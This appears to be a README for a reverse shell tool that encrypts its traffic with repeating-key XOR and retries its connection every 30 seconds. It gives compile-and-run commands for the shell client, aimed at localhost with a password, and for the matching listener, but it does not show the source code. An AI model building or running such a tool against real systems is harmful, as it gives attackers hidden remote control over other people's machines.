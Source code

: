 # Repeating key XOR reverse shell

The reverse shell attempts to make a connection every 30 seconds.
Traffic is encrypted with the key provided.

## Useage

### Reverse Shell
```
gcc -o rev.bin reverse-shell.c
./rev.bin 127.0.0.1 58008 mysecretpassword
```

### Shell Catcher
```
gcc -o server ./server.c
./server 58008 mysecretpassword 
```
